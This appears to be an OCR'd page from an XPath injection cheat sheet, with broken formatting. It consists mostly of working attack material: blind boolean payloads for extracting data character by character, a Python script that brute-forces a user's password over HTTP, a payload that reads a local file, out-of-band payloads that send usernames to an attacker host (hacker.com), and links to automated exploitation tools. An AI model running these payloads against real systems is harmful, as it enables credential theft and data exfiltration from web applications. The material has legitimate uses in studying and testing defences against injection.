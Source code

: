 ```
## Blind Explotation

### **Get length of a value and extract it by comparisons:**

```bash
' or string-length(//user[position()=1]/child::node()[position()=1])=4 or ''=' #True if length equals 4
' or substring((//user[position()=1]/child::node()[position()=1]),1,1)="a" or ''=' #True is first equals "a"

substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)

... and ( if ( $employee/role = 2 ) then error() else 0 )... #When error() is executed it rises an error and never returns a value
```
```
### **Python Example**

```python
import requests, string

flag = ""
l = 0
alphabet = string.ascii_letters + string.digits + "{}_()"
for i in range(30):
    r = requests.get("http://example.com?action=user&userid=2 and string-length(password)=" + str(i))
    if ("TRUE_COND" in r.text):
        l = i
        break
print("[+] Password length: " + str(l))
for i in range(1, l + 1): #print("[i] Looking for char number " + str(i))
    for al in alphabet:
        r = requests.get("http://example.com?action=user&userid=2 and substring(password,"+str(i)+",1)="+al)
        if ("TRUE_COND" in r.text):
            flag += al
            print("[+] Flag: " + flag)
            break
```
```
### Read file

```python
(substring((doc('file://protected/secret.xml')/*[1]/*[1]/text()[1]),3,1))) < 127
```
```
## OOB Exploitation

```python
doc(concat("http://hacker.com/oob/", RESULTS))
doc(concat("http://hacker.com/oob/", /Employees/Employee[1]/username))
doc(concat("http://hacker.com/oob/", encode-for-uri(/Employees/Employee[1]/username)))

#Instead of doc() you can use the function doc-available
doc-available(concat("http://hacker.com/oob/", RESULTS))
#the doc available will respond true or false depending if the doc exists,
#user not(doc-available(...)) to invert the result if you need to
```
```
### Automatic tool

- [[https://xcat.readthedocs.io/|xcat]]
- [[https://github.com/feakk/xxxpwn|xxxpwn]]
- [[https://github.com/aayla-secura/xxxpwn_smart|xxxpwn_smart]]
```